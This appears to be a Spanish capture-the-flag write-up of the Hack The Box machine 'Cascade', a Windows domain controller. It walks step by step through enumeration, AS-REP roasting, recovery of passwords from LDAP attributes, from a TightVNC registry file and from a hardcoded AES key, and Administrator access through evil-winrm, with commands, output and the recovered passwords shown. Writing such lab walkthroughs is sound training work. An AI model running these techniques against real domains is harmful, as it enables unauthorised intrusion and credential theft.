

Reconocimiento
Nmap
Escaneamos la maquina para ver que puertos tiene abiertos:
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.10.10.182
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
49154/tcp open unknown
49155/tcp open unknown
49157/tcp open unknown
49158/tcp open unknown
49170/tcp open unknown
Enumeración
rpcclient
Con rpcclient podemos enumerar usuarios válidos en el sistema
> rpcclient -U "" 10.10.10.182 -N -c "enumdomusers"
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
Viendo estos posibles usuarios vamos a pasarlos a un archivo para intetar un ASREProast Attack:
> rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]"
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
> touch users
> rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" > users
Probamos el ASREProast Attack con la herramienta GetNPUsers.py:
> GetNPUsers.py cascade.local/ -no-pass -usersfile users
Impacket v0.12.0.dev1+20240718.115833.4e0e3174 - Copyright 2023 Fortra
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
No es vulnerable
Vamos a enumerar el LDAP usando la herramienta ldapsearch:
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local"
Es mucha información por lo que vamos a mandarlo a un archivo y abrirlo con batcat para filtrar mejor
Aquí podemos filtrar por userPrincipalName ahí suele salir bastante información sobre cada usuario y podemos llegar a ver información privilegiada:
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133662716905734283
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
Podemos ver en la línea cascadeLegacyPwd una cadena en base64:
La de-codeamos:
> echo "clk0bjVldmE=" | base64 -d; echo
rY4n5eva
Verificamos la contraseña con el usuario:
> crackmapexec smb 10.10.10.182 -u "r.thompson" -p "rY4n5eva"
SMB 10.10.10.182 445 CASC-DC1 [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB 10.10.10.182 445 CASC-DC1 [+] cascade.local\r.thompson:rY4n5eva
La contraseña es válida pero aún no podemos ganar acceso al sistema con herramientas como psexec
Vamos a enumerar el SMB ahora que tenemos credenciales:
SMB
Vemos que hay un directorio data, vamos a hacer un montura de este para poder movernos mejor:
sudo mount -t cifs "//10.10.10.182/data" /mnt/montura -o username=r.thompson,password=rY4n5eva
Dentro de la montura hacemos un tree para enumerar rápido el contenido:
tree -fas
[ 4096] .
├── [ 0] ./Contractors
├── [ 0] ./Finance
├── [ 0] ./IT
│ ├── [ 0] ./IT/Email Archives
│ │ └── [ 2522] ./IT/Email Archives/Meeting_Notes_June_2018.html
│ ├── [ 0] ./IT/LogonAudit
│ ├── [ 0] ./IT/Logs
│ │ ├── [ 0] ./IT/Logs/Ark AD Recycle Bin
│ │ │ └── [ 1303] ./IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
│ │ └── [ 0] ./IT/Logs/DCs
│ │ └── [ 5967] ./IT/Logs/DCs/dcdiag.log
│ └── [ 0] ./IT/Temp
│ ├── [ 0] ./IT/Temp/r.thompson
│ └── [ 0] ./IT/Temp/s.smith
│ └── [ 2680] ./IT/Temp/s.smith/VNC Install.reg
├── [ 0] ./Production
└── [ 0] ./Temps
En IT/Email Archives/Meeting_Notes_June_2018.html vemos algo interesante:
-- New production network will be going live on Wednesday so keep an eye out for any issues.
-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
-- The winner of the “Best GPO” competition will be announced on Friday so get your submissions in soon.
Dice que se va usar un usuario que sera eliminado y que va a tener la misma contraseña que el admin. (Servirá mas adelante)
Vemos el contenido del archivo VNC Install.reg:
��Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
Vemos que hay un parámetro password en hexadecimal, vamos a decodearlo:
> echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d "," | xxd -ps -r; echo
k�*KnZ�
Parece que nos devuelve un cadena no legible, como es un fichero de VNC vamos a usar una herramienta para de-codear contraseñas
> echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d "," | xxd -ps -r > pass
> ./vncpwd pass
Password: sT333ve2
El usuario al que pertenece esta contraseña creo que es s.smith ya que estaba dentro de un directorio con su nombre: /IT/Temp/s.smith/VNC Install.reg, vamos a verificarlo:
crackmapexec smb 10.10.10.182 -u "s.smith" -p "sT333ve2"
SMB 10.10.10.182 445 CASC-DC1 [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB 10.10.10.182 445 CASC-DC1 [+] cascade.local\s.smith:sT333ve2
Efectivamente es válida
Vamos a probar a ver si es válido en winrm:
crackmapexec winrm 10.10.10.182 -u "s.smith" -p "sT333ve2"
SMB 10.10.10.182 5985 CASC-DC1 [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP 10.10.10.182 5985 CASC-DC1 [*] http://10.10.10.182:5985/wsman
HTTP 10.10.10.182 5985 CASC-DC1 [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
Perfecto vamos a utilizar la herramienta evil-winrm para ganar acceso al sistema:
> evil-winrm -i 10.10.10.182 -u "s.smith" -p "sT333ve2"
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
Escalada de Privilegios
Vemos que pertenecemos al grupo Audit Share
> net user s.smith
User name s.smith
Full Name Steve Smith
Comment
User's comment
Country code 000 (System Default)
Account active Yes
Account expires Never
Password last set 1/28/2020 8:58:05 PM
Password expires Never
Password changeable 1/28/2020 8:58:05 PM
Password required Yes
User may change password No
Workstations allowed All
Logon script MapAuditDrive.vbs
User profile
Home directory
Last logon 1/29/2020 12:26:39 AM
Logon hours allowed All
Local Group Memberships *Audit Share *IT
*Remote Management Use
Global Group memberships *Domain Users
The command completed successfully.
Parece que es una carpeta compartida
> net localgroup "Audit Share"
Alias name Audit Share
Comment \\Casc-DC1\Audit$
Members
-------------------------------------------------------------------------------
s.smith
The command completed successfully.
Vamos a acceder por smb:
> smbmap -H 10.10.10.182 -u "s.smith" -p "sT333ve2" -r Audit$
[+] IP: 10.10.10.182:445 Name: cascade.local
Disk Permissions Comment
---- ----------- -------
Audit$ READ ONLY
.\Audit$\*
dr--r--r-- 0 Wed Jan 29 19:01:26 2020 .
dr--r--r-- 0 Wed Jan 29 19:01:26 2020 ..
fr--r--r-- 13312 Tue Jan 28 22:47:08 2020 CascAudit.exe
fr--r--r-- 12288 Wed Jan 29 19:01:26 2020 CascCrypto.dll
dr--r--r-- 0 Tue Jan 28 22:43:18 2020 DB
fr--r--r-- 45 Wed Jan 29 00:29:47 2020 RunAudit.bat
fr--r--r-- 363520 Tue Jan 28 21:42:18 2020 System.Data.SQLite.dll
fr--r--r-- 186880 Tue Jan 28 21:42:18 2020 System.Data.SQLite.EF6.dll
dr--r--r-- 0 Tue Jan 28 21:42:18 2020 x64
dr--r--r-- 0 Tue Jan 28 21:42:18 2020 x86
Vamos a descargarnos estos archivos:
> smbclient //10.10.10.182/Audit$ -U "s.smith%sT333ve2"
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> recurse ON
smb: \> mget *
Hay una base de datos vamos a abrirla con sqlite3:
sqlite3 Audit.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> . tables
DeletedUserAudit Ldap Misc
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
Dentro de Ldap vemos una posible contraseña encriptada, después de ver las cadenas hardcodeadas en los archivos CascAudit.exe y CascCrypto.dll Vemos cosas interesantes:
CascAudit.exe:
> strings CascAudit.exe -e l
.5<C
CascAudiot.Resources
Invalid number of command line args specified. Must specify database path only
Data Source=
;Version=3;
SELECT * FROM LDAP
Uname
Domain
c4scadek3y654321
Error decrypting password:
Vemos una contraseña y un mensaje de Error decrypting password esto nos da un pista y es que se esta utilizando un método de encriptado
CascCrypto.dll:
> strings CascCrypto.dll -e l
1tdyjCbY1Ix49842
CascCrypto.Resources
1tdyjCbY1Ix49842
VS_VERSION_INFO
VarFileInfo
Translation
StringFileInfo
000004b0
FileDescription
AesCrypto
Vemos que menciona el método de encriptado AES, este necesita una contraseña y un IV (vamos a probar con 1tdyjCbY1Ix49842 ya que es la única cadena que podria serlo) vamos a probar de decodificarla ya que tenemos:
Password: c4scadek3y654321
IV: 1tdyjCbY1Ix49842

Efectivamente tenemos la contraseña decodificada: w3lc0meFr31nd
Vamos a verificar la contraseña:
> crackmapexec smb 10.10.10.182 -u "ArkSvc" -p "w3lc0meFr31nd"
SMB 10.10.10.182 445 CASC-DC1 [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB 10.10.10.182 445 CASC-DC1 [+] cascade.local\ArkSvc:w3lc0meFr31nd
Efectivamente es válida
Vamos a probar a ver si es válido en winrm:
> crackmapexec winrm 10.10.10.182 -u "ArkSvc" -p "w3lc0meFr31nd"
SMB 10.10.10.182 5985 CASC-DC1 [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP 10.10.10.182 5985 CASC-DC1 [*] http://10.10.10.182:5985/wsman
HTTP 10.10.10.182 5985 CASC-DC1 [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)
Vemos que esta en el grupo AD Recycle Bin
> net user arksvc
User name arksvc
Full Name ArkSvc
Comment
User's comment
Country code 000 (System Default)
Account active Yes
Account expires Never
Password last set 1/9/2020 5:18:20 PM
Password expires Never
Password changeable 1/9/2020 5:18:20 PM
Password required Yes
User may change password No
Workstations allowed All
Logon script
User profile
Home directory
Last logon 1/29/2020 10:05:40 PM
Logon hours allowed All
Local Group Memberships *AD Recycle Bin *IT
*Remote Management Use
Global Group memberships *Domain Users
The command completed successfully.
Como habíamos visto antes se eliminó un usuario que tenia la contraseña del Administrador como pertenecemos al grupo de AD Recycle Bin podemos llegar a ver su información:
get-adobject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects
Deleted : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name : CASC-WS1
DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass : computer
ObjectGUID : 6d97daa4-2e82-4946-a11e-f91fa18bfabe
Deleted : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name : TempAdmin
DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass : user
ObjectGUID : f0cc344d-31e0-4866-bceb-a842791ca059
Vamos a ver las propiedades:
cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz
En una línea vemos esto, vamos a decodificarlo:
> echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo
baCT3r1aN00dles
Como habíamos leído antes la contraseña del usuario eliminado era también la del usuario Administrador por lo que vamos a probar de conectarnos con esta contraseña:
evil-winrm -i 10.10.10.182 -u "Administrator" -p "baCT3r1aN00dles"
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
Ya somos root!